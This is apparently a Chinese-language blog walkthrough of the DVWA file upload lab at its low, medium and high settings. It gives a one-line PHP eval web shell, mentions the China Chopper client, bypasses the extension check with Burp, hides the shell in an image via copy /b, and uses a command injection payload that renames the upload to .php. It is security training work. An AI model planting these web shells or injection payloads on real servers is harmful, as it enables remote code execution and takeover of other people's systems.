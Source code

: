 ```yaml
---
layout: post
title: File Upload
subtitle: File Upload
date: 2023-08-01 23:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
categories: 
excerpt: "文件上传漏洞 LOW MEDIUM HIGH"
published: true
---
```

# 文件上传漏洞
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?>
```

构造url：http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=

```php
phpinfo();
system('ls');
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```
### MEDIUM

将the.php改为the.jpg

burpsuit抓取request，修改文件后缀
### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用Command Injection

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```